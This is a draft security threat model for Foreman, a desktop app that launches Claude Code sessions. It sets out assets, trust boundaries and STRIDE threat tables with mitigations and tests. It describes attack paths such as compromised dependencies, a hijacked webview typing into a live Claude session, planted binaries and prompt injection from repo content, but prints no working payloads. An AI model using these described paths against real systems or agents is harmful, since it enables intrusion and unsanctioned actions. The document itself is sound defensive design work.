






# Foreman · Threat model

**Status:** DRAFT for the Stage 4 sign · 2026-10-19
**Blueprint stage:** 4.3
**Method:** Microsoft SDL threat modeling: scope and assets, data flow diagrams per trust boundary, STRIDE per DFD element, abuse cases, residual risk, coverage proof.
**Inputs:** `docs/design-doc.md`; `docs/adr/ADR-001` to `ADR-024`; `docs/requirements.md` (SR-01 to SR-64, PR-01 to PR-08, revised after the Stage 3 security review; **authoritative**); `docs/MASTER-SPEC.md` §6–§8; `docs/scope.md` (AC IDs); `spec/council/r4-redteam.md`.

**How to read it.**
- Threat IDs are `T-NNN`, abuse cases `AB-NN`, residual risks `RR-NN`.
- "Proven by" names tests exactly as `docs/requirements.md`, the ADRs and `docs/scope.md` name them. Tests this document had to add are marked **⚑ NEW** and collected in §6.3. Stage 4.6 tickets must create them; `scripts/check-sr-tests` (ADR-015) should grep for them too.
- Where this document disagrees with, or finds a gap in, `requirements.md` or an ADR, it says so as a **finding** (§7). It doesn't change those documents.

---

## 1. Scope, assets, trust levels, assumptions

### 1.1 Scope

**In scope:** everything Foreman v1 is and does:
- the Tauri 2.12.4 app: the webview (SvelteKit 3 SPA, xterm 6) and the Rust crates `foreman-app`, `foreman-sys`, `foreman-core`;
- `foreman-sensor` (P2);
- every process Foreman spawns: `claude` in a PTY, `claude -v`, `claude auth status`, `--init-only` probes, `--desktop`, `git`, `/usr/bin/open`, the toolchain probes and the one consented login shell;
- every file Foreman reads or writes;
- the clipboard, the default browser and notifications as Foreman uses them;
- Foreman's own build and supply chain.

v1.1 items (SR-11, SR-12, F-101) are covered only as a recorded risk (T-107, RR-05).

**Out of scope:**
- What Claude Code does on its own: its network traffic, its permission engine, its handling of prompt injection. Foreman treats it as untrusted (T4) and controls only what it passes in and what it accepts back.
- claude.ai and Anthropic's services.
- macOS itself, and other users on the Mac.

**Not applicable (from `requirements.md`).** ASVS chapters for authentication, session management, OAuth/OIDC and web services don't apply: Foreman has no accounts, sessions, server or network surface of its own (SR-60). Business model, pricing and the legal/compliance part of 3.2 don't apply either: it's a personal tool with no one else's data and no distribution.

**PR-07 statement (processors).** Foreman shares data with no third party. Claude Code, launched by Foreman, sends prompts and repo content to Anthropic under Billy's own subscription. That's Claude Code's behavior and Billy's existing relationship with Anthropic, not a processor relationship of Foreman's (T-102).

### 1.2 Assets

| ID | Asset | Why it matters | Worst outcome |
|---|---|---|---|
| A1 | **Billy's subscription login and billing** (the `claude.ai`/`oauth_token` auth, `CLAUDE_CODE_OAUTH_TOKEN` when present) | Every launch bills Billy's plan; the brief forbids API-key billing | A repo silently switches a session to an API key, a proxy or another provider; usage is burned without his action |
| A2 | **Repo integrity** (working tree, `.git`, `.claude/`, `CLAUDE.md`) | Foreman writes into repos that Claude edits continuously | Foreman's own write plants code that runs later (git hook, settings hook, MCP server), or destroys a newer edit |
| A3 | **Signed records** (packets with APPROVED BY, `.foreman/stages/*.json`, signing commits, decision files, the lock) | The blueprint's honesty rests on them | A record says Billy approved something he didn't, or a decision takes effect that he never approved |
| A4 | **Secrets on disk** (`.env*`, keys, `~/.ssh`, `~/.aws`, the Claude credential store, `~/.claude.json` session data, secrets a session printed into terminal tails) | Foreman reads repos and terminal output | Foreman displays, logs, retains or leaks a secret |
| A5 | **The Mac itself** (Billy's user account) | Foreman spawns programs as Billy | Foreman becomes a path for repo content to run arbitrary code as Billy outside Claude Code's permission system |
| A6 | **Foreman's own state** (app data: approvals, progress, run log, settings, sensor binary) | It decides what takes effect and records what ran | Lost, corrupted, or silently altered state |

### 1.3 Trust levels

| Level | Who or what | Treatment |
|---|---|---|
| **Trusted** | **Billy** and his explicit actions in Foreman's UI (clicks, keystrokes); the Foreman binary he built from a pinned lockfile; macOS | Only Billy's action starts anything that affects a Claude session (SR-18) |
| **Trusted, more** | **The Rust core** (`foreman-app`, `foreman-sys`, `foreman-core`) | Every security decision lives here: program, argv, env, cwd, paths, URLs, paste content (design doc §3.1 T1) |
| **Less trusted** | **The webview** (SvelteKit, bits-ui, xterm and their dependencies) | It can call Foreman's commands, including `pty_write`. It holds no plugin permissions and supplies nothing Rust uses unvalidated (SR-22, SR-24) |
| **Untrusted** | **Repo content**: packets, tickets, lessons, `.foreman/` decision files, declared outputs, file names | Read through the path policy; acted on only as parsed, validated structure (SR-27, SR-30, SR-31, SR-40) |
| **Untrusted** | **Pasted chat output** from claude.ai | Normalized, split, validated, previewed with target paths and diffs before any write (SR-35) |
| **Untrusted** | **Terminal output** (bytes Claude's TUI emits, including escape sequences) | Rendered by xterm only; links, titles, clipboard and window operations are routed to Rust or disabled (SR-29) |
| **Untrusted** | **The blueprint** and its lock | Parsed with a strict grammar; pinned by hash; verified against git (SR-03, SR-41) |
| **Untrusted** | **Claude Code's behavior** (including after updates) | Flags fixed, env built, config fingerprinted, auth checked fail-closed, version floor and probes (SR-03 to SR-09, SR-17) |
| **Untrusted** | **Each repo's `.claude/` config, `.mcp.json`, `CLAUDE.md`** and the user/managed Claude config | Read-only to Foreman; fingerprinted; auth-changing keys blocked (SR-06, SR-07, SR-10) |
| **Untrusted** | **Each repo's `.git/config`** (and `.gitattributes`) | Neutralized by `git::run`'s fixed `-c` overrides, cleared env and plumbing-only commits (SR-44, SR-45) |
| **Untrusted** | **Sensor events** | Token-scoped; only update displayed state (SR-15, SR-18) |

### 1.4 Assumptions

| ID | Assumption | What it implies |
|---|---|---|
| AS-1 | **Single user.** Billy is the only person using Foreman and the only owner of the repos it opens. | No authentication, authorization or multi-tenant controls. Other macOS users are outside the boundary, and standard Unix permissions (app data `0700`/`0600`, SR-53) keep them out. |
| AS-2 | **macOS 26/27 on Apple Silicon, APFS** (case- and normalization-insensitive by default). | Path comparisons must fold case and normalization (SR-30). `F_GETPATH`, `O_NOFOLLOW_ANY` and `renameatx_np` are available (ADR-010, ADR-011). |
| AS-3 | **Same-user processes are inside the trust boundary.** | See below. |
| AS-4 | Billy builds Foreman locally from committed lockfiles and installs it himself (SR-64). | The binary is as trustworthy as the pinned dependency set and the CI checks (SR-61 to SR-63). |
| AS-5 | Claude Code is installed and updated by Billy (or by its own auto-update). | Foreman can't stop a malicious Claude Code release. It detects version changes and contract drift (SR-17, SR-19) and limits what it hands Claude Code. |
| AS-6 | Billy reads what Foreman shows him before he clicks: diffs, previews, confirmation reasons. | Controls that end in "Billy reviews" are only as good as the rendering (SR-26) and the dialog's honesty (T-003). |

**AS-3, precisely.** Every process running as Billy's macOS user is inside the trust boundary. That includes:
- every command Claude's Bash tool runs;
- every hook, MCP server and helper Claude Code starts;
- every package script those commands run;
- Billy's editors and terminals.

**Any such process can, without any Foreman bug:**
- read and write everything in app data: approvals and approved copies, `progress.json`, run settings files (including the sensor token), sensor event files, the cached template, the fingerprint cache, `settings.json`, and the sensor binary under `bin/`;
- read and write every repo, `~/.claude/`, `~/.claude.json`, and the `claude` binary at `~/.local/bin/claude`;
- signal Foreman's children, and Foreman itself.

**What follows for Foreman's controls:**
1. **Content controls work against data, not against code.** Path policy, parsing, approvals, previews and the no-action-from-content rule stop *content*. That means a hostile string in a packet, an overlay, a config file, a file name or terminal output can't make Foreman act. They don't stop a *process* already executing as Billy from editing Foreman's state directly.
2. **The practical boundary against "Claude executing as Billy" is Claude Code's permission system.** In an interactive session, a Bash command needs Billy's approval or a matching allow rule. Foreman keeps that system intact (SR-09 forces `disableBypassPermissionsMode`) and makes its configuration visible (SR-06). It doesn't replace it. The run settings deny rules bind Claude's Read/Edit/Write tools, **not Bash** (SR-09, RR-01).
3. **Detection, not prevention, for same-user tampering.** The per-run sensor token stops cross-run mix-ups, not forgery (SR-15). The approved copies in app data stop repo-side decision edits, not app-data edits (RR-02). Hash checks (sensor binary, cached template, lock) catch accidental corruption and naive tampering.
4. **No control may depend on a secret stored in app data.** Same-user processes can read it. This is why decision integrity uses approved copies (ADR-022), not an HMAC key.

---

## 2. Data flow diagrams

### 2.1 Element catalog

| ID | Element | Kind | Trust |
|---|---|---|---|
| E1 | Billy | External entity | Trusted |
| E2 | `claude` process tree: TUI, Bash tool commands, hooks, MCP servers, subagents | External entity (child) | Untrusted |
| E3 | `git` | External entity (child) | Program trusted; repo config untrusted |
| E4 | `/usr/bin/open` → editor (by bundle ID), Finder (reveal), Terminal | External entity (child) | Trusted program; target content untrusted |
| E5 | Helper programs: `node`/`pnpm`/`cargo --version`, the consented login shell | External entity (child) | Trusted program; cwd and config matter (T-038) |
| E6 | Default browser | External entity | Outside Foreman |
| E7 | Anthropic (reached only by Claude Code) | External entity | Outside Foreman |
| E8 | Other same-user processes | External entity | Inside the boundary (AS-3) |
| E9 | claude.ai chats (source of pasted text) | External entity | Untrusted content |
| P1 | Webview: SvelteKit SPA, xterm, JS dependencies | Process | Less trusted |
| P2 | `foreman-app`: commands, Channels, events, watcher, sensor ingest, `os` wrappers | Process | Trusted |
| P3 | `foreman-sys`: `spawn`, `git::run`, `PtySession`, `claude`, `open` | Process | Trusted |
| P4 | `foreman-core`: pure domain, path policy, `store` | Process | Trusted |
| P5 | `foreman-sensor` (P2), executed by Claude Code as a hook | Process | Trusted code, untrusted input |
| D1 | Project repo working tree: packets, `.foreman/`, `docs/`, `spec/`, declared outputs | Data store | Untrusted |
| D2 | Repo `.git`: config, index, objects, refs, `info/exclude` | Data store | Untrusted config |
| D3 | Repo Claude config: `.claude/**`, `.mcp.json`, `CLAUDE.md`, `CLAUDE.local.md` | Data store | Untrusted, read-only to Foreman |
| D4 | User and managed Claude config: `~/.claude/**`, `~/.claude.json` `mcpServers`, managed settings, ancestor `CLAUDE.md` | Data store | Untrusted, read-only to Foreman |
| D5 | App data: settings, projects, progress, approvals, runs, events, templates, cache, `bin/`, `probe/`, logs | Data store | Foreman's own (same-user writable, AS-3) |
| D6 | Blueprint repo | Data store | Untrusted |
| D7 | Claude transcripts (`<config>/projects/**/<uuid>.jsonl`) | Data store | Existence checked only, never opened |
| D8 | System clipboard | Data store | Shared with every app |

**Trust boundaries.** They map to the design doc's T1–T5 as follows:

| Boundary | Covers | Design doc |
|---|---|---|
| **TB1** | Webview ↔ Rust | T1 |
| **TB2** | Rust ↔ child processes, including the sensor path | T4, T5 |
| **TB3** | Rust ↔ file system | T2 |
| **TB4** | Untrusted content → UI and → Claude | T2, T3, T4 |
| **TB5** | Foreman ↔ shared OS services: clipboard, default browser, notifications | — |

### 2.2 Level 0: context

### 2.3 TB1: webview ↔ Rust

Flows that cross TB1:
- **F1** commands: the IPC table in design doc §3.4. Notable: `pty_write`, `pty_paste`, `launch_start`, `config_ack`, `pending_change_accept`, `settings_update`, `paste_back_apply`, `sign_apply`, `file_open`, `terminal_link_open`.
- **F2** a PTY output Channel per run.
- **F3** six invalidation events.
- There are **no webview → Rust events**. The capability doesn't grant `emit`.

### 2.4 TB2: Rust ↔ child processes

Data crossing TB2 outbound (Foreman → child):
- the absolute program path;
- argv (fixed flags plus the final positional prompt);
- the child environment (allowlist);
- the cwd (no-symlink walk);
- the run settings file path;
- keystrokes and sanitized pastes.

Inbound (child → Foreman): PTY output bytes, exit codes, capped stdout/stderr of non-PTY children, and sensor event files.

### 2.5 TB3: Rust ↔ file system

### 2.6 TB4: untrusted content → UI and → Claude

**The rule this boundary enforces (SR-27):** content can change what Billy *sees*, never what Foreman *does*. Foreman acts on:
- parsed structure: packet fields, annotations, decision fields, but only as last approved (SR-40);
- Billy's input.

Content reaches Claude in only two ways:
- as the positional prompt, after resolution, through `check_prompt`;
- as a sanitized paste.

### 2.7 TB5: clipboard, default browser, notifications

---

## 3. STRIDE analysis

### 3.1 Rating scales

**Likelihood** (before Foreman's controls):

| Rating | Meaning |
|---|---|
| **H** | Expected in normal use: Claude's routine edits, Claude Code updates, Billy's checkouts |
| **M** | Plausible: prompt injection from a dependency README or pasted text, an accidental symlink, a crash, Billy's mistake |
| **L** | Needs a deliberately hostile repo, blueprint or dependency, or a process already running as Billy |

**Impact:**

| Rating | Meaning |
|---|---|
| **H** | Hits A1, A2, A3 or A5: billing change, code running outside Billy's intent, a falsified signed record, a lost newer edit, or a secret exposed off the Mac |
| **M** | A visible but wrong step or gate, a local denial of service, or sensitive data kept locally longer than needed |
| **L** | Cosmetic, self-correcting, or confined to Foreman's own UI |

**Residual** is the rating after controls. **Low** means the control closes it at the stated layer; **RR-NN** means an accepted residual risk (§5).

### 3.2 STRIDE per element (summary matrix)

S = spoofing, T = tampering, R = repudiation, I = information disclosure, D = denial of service, E = elevation of privilege. Cells list threat IDs; "—" means considered and not applicable, for the reason in the last column.

| Element | S | T | R | I | D | E | Notes on "—" |
|---|---|---|---|---|---|---|---|
| P1 webview | T-011, T-095 | T-004, T-005, T-013 | — | T-010, T-013 | T-012 | T-001, T-002, T-003, T-006, T-007, T-008, T-009, T-097 | R: single user, and actions are logged in Rust |
| F1/F2/F3 IPC | T-011 | T-005 | — | — | T-012 | T-006 | R: as above. I: data stays in-process |
| P2/P3/P4 Rust core | — | T-059, T-060 | T-033 | T-072, T-073 | T-058, T-105 | T-105 | S: no network identity; local IPC only |
| E2 `claude` (F4, PTY) | T-014, T-020 | T-016, T-017, T-018, T-021, T-024, T-025, T-026, T-027, T-030, T-036 | T-033 | T-018, T-020, T-028 | T-029 | T-015, T-019, T-022, T-023, T-031, T-032, T-034, T-035 | — |
| `claude -v`, `auth status`, probes, helpers (E5) | T-014 | T-036 | — | — | T-037 | T-022, T-037, T-038 | R: covered by the run log for launches only |
| E3 `git` (F5) | — | T-041, T-080, T-082 | T-083 | — | T-043 | T-039, T-040, T-042 | S: no network (`protocol.allow=never`) |
| E4 `open` (F6) | — | — | — | — | — | T-044 | T/I/D: one-shot argv, no data back |
| P5 sensor + F8/F9 | T-045 | T-046, T-048 | — | T-049 | T-048 | T-047, T-050 | R: events are advisory |
| D1 repo tree (F10) | T-077, T-078, T-085 | T-051, T-054, T-059, T-060, T-061, T-063, T-079, T-080 | T-083, T-084 | T-055, T-057 | T-058 | T-052, T-053 | — |
| D2 `.git` (F11) | — | T-062 | — | — | — | T-039, T-052 | — |
| D3/D4 Claude config (F12) | T-020 | T-021, T-027 | — | T-069, T-070 | T-058 | T-022, T-050 | — |
| D5 app data (F13) | T-045 | T-064 | T-033 | T-071, T-072, T-074, T-075, T-076 | — | T-046 | D: bounded by retention (SR-53) |
| D6 blueprint (F14) | — | T-065, T-066, T-067 | — | — | T-066 | T-066 | — |
| D7 transcripts (F15) | — | — | — | T-068 | T-030 | — | Never opened (PR-03) |
| Watcher | T-078 | T-056 | — | T-056, T-057 | T-058 | — | E: events never act (SR-18) |
| TB4 rendering | T-088, T-095 | T-087, T-090 | — | T-089 | T-012 | T-087, T-089, T-091, T-092, T-093, T-094, T-096, T-097 | — |
| D8 clipboard (F16) | — | T-094 | — | T-099 | — | T-091 | — |
| E6 browser (F17) | T-100 | — | — | T-101 | — | T-093, T-100 | — |
| Notifications | T-098 | — | — | T-098 | — | — | — |
| Build and supply chain | — | T-103, T-104, T-106 | — | T-104 | — | T-001, T-103, T-106 | — |

### 3.3 TB1: webview ↔ Rust

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-001 | E | A **compromised JS dependency** (bits-ui, xterm, an addon, kit, `@tauri-apps/api`, or a transitive one) runs in the webview with the UI's full command access. | L | H | Exact pins, `--frozen-lockfile`, `allowBuilds` default-deny, `minimumReleaseAge` 10080 min (strict), `trustPolicy: no-downgrade`, a lockfile scan for exotic sources, `pnpm audit` (ADR-024). A small runtime set. CSP `script-src 'self'` with no remote code and `connect-src` IPC only, so nothing can be fetched or exfiltrated (SR-20, SR-60). No plugin permissions (SR-22). | SR-61, SR-20, SR-22, SR-60 | CI `pnpm-policy`, `pnpm-audit`, `install` (`--frozen-lockfile`); AC-M0-17; `csp::production_config_snapshot`; Playwright zero-external-requests assertion (ADR-016) | RR-03 |
| T-002 | E | A compromised webview **types into a live Claude session** through `pty_write`, and an `acceptEdits`/`auto` session acts on it. | L | H | `pty_write` only for a live run, ≤ 64 KB (SR-24, ADR-006). T-001's controls lower the chance of a compromise. Claude Code's own permission prompts still apply to Bash. | SR-24 | `pty::write_requires_live_run`; AC-F009-19 | RR-03 |
| T-003 | E, S | A compromised webview **approves security confirmations that are rendered in the webview**: `config_ack` (SR-06), the launch confirmation (SR-19), `pending_change_accept` (SR-40), the root `CLAUDE.md` assembler confirmation token (SR-30), `sign_apply` (SR-42). | L | H | **F-1 adopted (SR-24a):** every one of these decisions is a **native dialog raised by Rust** (`tauri-plugin-dialog` in `app::os`), like `terminal_link_open`; no request struct has an approval field (`docs/contracts/ipc.md` IPC-R11, ADR-014 "Native confirmations"). The webview can request a decision but can't grant it. One-time `planId`/`previewId` bound to the project revision and fingerprint, valid 60 s (ADR-021), still stop replay and stale plans. | SR-24a, SR-24, SR-19, SR-06, SR-40, SR-30, SR-42 | `ipc::security_confirmations_are_native` (static check of the request bindings, plus a scripted-Cancel integration test per dialog); AC-F008-18, AC-F022-02, AC-F021-06, AC-F001-17, AC-F013-09 | Low |
| T-004 | T, E | A compromised webview uses `settings_update` to change **security-relevant settings**: the `claude`/`git`/probe program paths, the env pass-through list, SR-07's allowlisted user-setting hashes, the editor bundle ID. | L | H | Program paths come only from a Rust-side file dialog (SR-24) and are re-checked before every spawn (SR-01). SR-05's always-removed list beats the pass-through list. **F-1 adopted (SR-24a):** any change to these fields is applied only after a native confirmation listing it. | SR-24a, SR-24, SR-01, SR-05, SR-07 | AC-XC-06; `spawn::rejects_unlisted_program`; `env::denylist_beats_passthrough`; `settings::security_fields_require_native_confirm` | Low |
| T-005 | T, D | **Malformed, oversized or unknown-field IPC input** crashes a handler or slips through validation. | M | M | One request struct per command, `deny_unknown_fields`, no `flatten`; lengths, enums and IDs validated; typed errors; `catch_unwind` with no payload in the logs (SR-24, SR-57); no `unsafe` (SR-62). | SR-24, SR-57, SR-62 | `ipc::rejects_unknown_fields`, `ipc::fuzz_*`, `ipc::panic_returns_typed_error`; AC-XC-05 | Low |
| T-006 | E | The webview **supplies a path, program, argv, URL or env value** that Rust uses unvalidated. | L | H | Rust re-resolves launch plans (the UI never sends argv); `file_open` paths go through SR-31 and the extension check; URLs are parsed against the allowlist; user-picked paths come from Rust dialogs. | SR-24, SR-22 | AC-XC-06; `ipc::fuzz_*`; `opener::only_allowed_urls`; `opener::open_file_refuses_executable_types` | Low |
| T-007 | E | **Script injection** from rendered repo, pasted or terminal content (XSS), which would turn into T-001. | M | H | Content is rendered as text only; Markdown arrives as a typed node tree; lint bans `{@html}`, `innerHTML`, `outerHTML`, `insertAdjacentHTML` (SR-26). CSP: no inline script except Tauri-hashed bootstrap, no `unsafe-eval` (SR-20). | SR-26, SR-20 | Lint rules (`svelte/no-at-html-tags`, `no-restricted-properties`); `render::escapes_html_in_packet`; `render::no_raw_html_passthrough`; WDIO inline-script test (AC-XC-07) | Low |
| T-008 | E | The webview **navigates to a remote origin or opens a new window**, so remote content gets the IPC bridge. | L | H | The window is built in Rust: `on_navigation` allows only the app origin (plus the dev server in debug), `on_new_window` → Deny; no remote URLs in any capability; opener `open_js_links_on_click(false)` (SR-29, SR-21, SR-25a). | SR-29, SR-21 | `webview::navigation_denied_to_remote`; `webview::window_open_denied`; AC-XC-27 | Low |
| T-009 | E | **Capability drift**: a plugin permission (clipboard, opener, dialog, fs, shell) or `core:default` gets granted to the webview, or a command is registered without an ACL entry. | M | H | `main-window` grants only listen/unlisten, start-dragging, internal-toggle-maximize and Foreman's commands. `AppManifest::commands` makes every command ACL-checked. JS plugin packages aren't installed (SR-22, SR-23, ADR-014). | SR-22, SR-23, SR-21 | `capabilities::main_window_snapshot`; `capabilities::every_command_declared_and_granted`; AC-M0-09 | Low |
| T-010 | I, E | **Debug surfaces ship in release**: devtools, `withGlobalTauri`, the asset protocol (arbitrary file reads), drag-and-drop file paths, or the WDIO webdriver HTTP server. | L | M | `devtools` feature off in release; `withGlobalTauri: false`; `assetProtocol.enable: false`; drag-drop off; `freezePrototype`; `e2e` feature never in release (SR-21, ADR-015). | SR-21, SR-60 | `config::security_settings_snapshot`; `release::no_webdriver`; AC-M0-08 | Low |
| T-011 | S | The webview **spoofs an event** to itself, or Rust trusts an event payload as data. | L | L | Events are Rust → webview only, carry `{id, rev}`, and trigger a refetch; no `emit` permission; Rust never consumes webview events (design §3.4). | SR-22 | `capabilities::main_window_snapshot` | Low |
| T-012 | D | A **PTY output flood** (a Claude session printing megabytes) freezes the UI or exhausts memory. | M | M | 64 KB chunks; `pty_flow` back-pressure above 1 MB pending; scrollback 10,000; archived buffers disposed (ADR-006). | — (NFR-08, NFR-23) | `pty::burst_1mb_backpressure`; AC-F009-10 | Low |
| T-013 | T, I | **CSS injection** if S-0 forces `style-src 'unsafe-inline'`: injected style can restyle or hide UI, for example hide a warning. It can't run script. | L | M | Only `style-src` may relax, and only on S-0 evidence, recorded in ADR-014. `script-src` never relaxes. Content is still text-only (SR-26), so injection needs T-007 first. | SR-20 | `csp::production_config_snapshot` (pins whichever S-0 branch is taken); AC-M0-14 | RR-04 |

### 3.4 TB2: Rust ↔ child processes

#### 3.4.1 `claude` in the PTY (F4, PTY I/O)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-014 | S, E | A **planted or unlisted program** runs as "claude", "git" or a probe: a relative path, a repo-local `node_modules/.bin/claude`, a symlink into a writable project folder, a world-writable directory. | M | H | Allowlist of absolute paths from fixed candidates or Settings; re-checked before every spawn (exists, executable, not in a registered project, canonical target not in a project or world-writable directory) (SR-01, ADR-007). | SR-01 | `spawn::rejects_relative_path`, `spawn::rejects_unlisted_program`, `spawn::rejects_symlink_into_project`; AC-XC-02, AC-F008-03 | Low (RR-17 for the user-writable `~/.local/bin`) |
